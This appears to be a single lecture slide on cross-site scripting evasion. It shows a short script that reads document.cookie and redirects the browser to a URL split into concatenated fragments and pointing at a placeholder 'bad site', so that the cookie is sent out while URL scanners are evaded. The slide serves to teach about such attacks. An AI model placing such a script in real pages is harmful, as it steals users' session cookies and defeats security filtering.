

# XSS evasion (cont)
Another way – use scripts
Example:
<script>
A = document.cookie;
B = “ht”; C = “tp”; D = “:w”; E = “ww”; F = “bad site”; G = “bad search query”;
document.location = B + C + D + E + F + G + A;
</script>
Attacker may avoid URL scanning detection